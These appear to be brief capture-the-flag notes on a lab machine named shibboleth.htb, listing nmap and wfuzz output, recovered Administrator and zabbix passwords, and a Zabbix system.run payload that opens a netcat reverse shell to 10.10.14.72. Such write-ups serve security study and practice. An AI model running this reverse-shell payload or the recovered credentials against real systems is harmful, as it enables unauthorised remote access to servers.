 # NMAP
IP=10.10.11.124

```
nmap -sC -sV -oA nmap/initialscan 10.10.11.124
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-16 14:53 EET
Nmap scan report for 10.10.11.124
Host is up (0.051s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://shibboleth.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: shibboleth.htb
```

# wfuzz

```
000000099:   200        29 L     219 W      3684 Ch     "monitor"
000000346:   200        29 L     219 W      3684 Ch     "monitoring"
000000390:   200        29 L     219 W      3684 Ch     "zabbix"
```

```
http://shibboleth.htb/forms/Readme.txt

Fully working PHP/AJAX contact form script is available in the pro version of the template.
You can buy it from: https://bootstrapmade.com/flexstart-bootstrap-startup-template/
```

info@example.com
contact@example.com

Administrator:ilovepumkinpie1
zabbix:bloooarskybluh

system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.72 9001 >/tmp/f &,nowait]



bloooarskybluh





